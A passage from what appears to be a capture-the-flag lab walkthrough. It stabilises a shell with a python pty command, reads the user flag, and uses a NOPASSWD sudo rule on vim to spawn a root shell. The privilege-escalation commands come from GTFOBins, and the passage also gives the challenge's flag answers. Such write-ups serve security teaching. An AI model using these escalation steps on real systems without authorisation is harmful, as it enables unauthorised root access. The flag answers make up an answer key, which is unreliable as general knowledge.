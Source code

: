 
## Question
> What's the user flag?
- We can stabilize the shell using the following commands:
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
mitch@Machine:~$ export TERM=xterm
mitch@Machine:~$ 
```
- Let's read the user flag.
```
mitch@Machine:~$ cat user.txt 
G00d j0b, keep up!
```
## Answer
```
G00d j0b, keep up!
```

## Question
> Is there any other user in the home directory? What's its name?
- Let's check.
```
mitch@Machine:~$ ls /home/
mitch  sunbath
```
## Answer
```
sunbath
```

## Question
> What can you leverage to spawn a privileged shell?
- We can check the files that `mitch` can execute using the following command:
```
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```
## Answer
```
vim
```

## Question
> What's the root flag?
- We can find an exploit on GTFOBins.
![[5 42.png]]
- Let's run the exploit.
```
mitch@Machine:~$ sudo /usr/bin/vim -c '!/bin/sh'

#
```
- We can now read the root flag.
```
# cat /root/root.txt
Well d0n3. You made it!
```
## Answer